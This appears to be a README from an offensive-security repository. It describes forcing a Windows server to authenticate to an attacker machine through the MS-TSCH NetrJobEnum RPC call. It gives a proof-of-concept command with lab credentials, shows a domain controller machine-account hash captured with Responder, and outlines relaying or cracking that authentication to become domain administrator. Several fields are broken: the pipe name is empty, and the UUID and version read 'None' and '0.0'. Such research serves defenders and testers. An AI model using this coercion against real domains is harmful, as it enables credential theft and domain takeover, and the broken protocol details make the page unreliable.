 # MS-TSCH - Remote call to NetrJobEnum (opnum 2)

## Summary

+ **Protocol**: [[MS-TSCH]: Task Scheduler Service Remoting Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/d1058a28-7e02-4948-8b8d-4a347fa64931)

+ **Protocol UUID**: None

+ **Protocol version**: 0.0

+ **SMB Named pipe**: ``

+ **Function name**: [`NetrJobEnum`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/fbd5a268-b8c6-4953-8df3-8931ca0f365d)

+ **Function operation number**: `2`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-TSCH`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/d1058a28-7e02-4948-8b8d-4a347fa64931) protocol (with uuid `None` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-TSCH`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/d1058a28-7e02-4948-8b8d-4a347fa64931) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-TSCH]: Task Scheduler Service Remoting Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/d1058a28-7e02-4948-8b8d-4a347fa64931) and allows to call RPC functions of this protocol. We will then call the remote [`NetrJobEnum`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/fbd5a268-b8c6-4953-8df3-8931ca0f365d) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
NetrJobEnum('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
NET_API_STATUS NetrJobEnum(
   [in, string, unique] ATSVC_HANDLE ServerName,
   [in, out] LPAT_ENUM_CONTAINER pEnumContainer,
   [in] DWORD PreferedMaximumLength,
   [out] LPDWORD pTotalEntries,
   [in, out, unique] LPDWORD pResumeHandle
 );
```

## References

+ Documentation of protocol [MS-TSCH]: Task Scheduler Service Remoting Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/d1058a28-7e02-4948-8b8d-4a347fa64931

+ Documentation of function `NetrJobEnum`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/fbd5a268-b8c6-4953-8df3-8931ca0f365d